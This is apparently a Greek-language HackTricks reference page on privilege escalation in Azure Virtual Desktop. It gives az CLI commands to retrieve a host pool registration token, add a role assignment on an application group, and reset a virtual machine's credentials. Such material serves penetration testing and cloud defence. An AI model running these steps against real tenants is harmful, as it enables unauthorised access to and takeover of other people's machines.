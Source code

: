 # Az - Virtual Desktop Privesx

{{#include ../../../banners/hacktricks-training.md}}

## Azure Virtual Desktop Privesc

### `Microsoft.DesktopVirtualization/hostPools/retrieveRegistrationToken/action`
Μπορείτε να ανακτήσετε το token εγγραφής που χρησιμοποιείται για την εγγραφή εικονικών μηχανών μέσα σε μια ομάδα φιλοξενίας.
```bash
az desktopvirtualization hostpool retrieve-registration-token -n testhostpool -g Resource_Group_1
```
### ("Microsoft.Authorization/roleAssignments/read", "Microsoft.Authorization/roleAssignments/write") && ("Microsoft.Compute/virtualMachines/read","Microsoft.Compute/virtualMachines/write","Microsoft.Compute/virtualMachines/extensions/read","Microsoft.Compute/virtualMachines/extensions/write")

Με αυτές τις άδειες μπορείτε να προσθέσετε μια ανάθεση χρήστη στην ομάδα εφαρμογών, η οποία είναι απαραίτητη για την πρόσβαση στη εικονική μηχανή του εικονικού επιτραπέζιου υπολογιστή.
```bash
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP_NAME>/providers/Microsoft.DesktopVirtualization/applicationGroups/<APP_GROUP_NAME>/providers/Microsoft.Authorization/roleAssignments/<NEW_ROLE_ASSIGNMENT_GUID>?api-version=2022-04-01" \
--body '{
"properties": {
"roleDefinitionId": "/subscriptions/<SUBSCRIPTION_ID>/providers/Microsoft.Authorization/roleDefinitions/1d18fff3-a72a-46b5-b4a9-0b38a3cd7e63",
"principalId": "<USER_OBJECT_ID>"
}
}'
```
Επιπλέον, μπορείτε να αλλάξετε τον χρήστη και τον κωδικό πρόσβασης της εικονικής μηχανής για να έχετε πρόσβαση σε αυτήν.
```bash
az vm user update \
--resource-group <RESOURCE_GROUP_NAME> \
--name <VM_NAME> \
--username <USERNAME> \
--password <NEW_PASSWORD>
```
{{#include ../../../banners/hacktricks-training.md}}
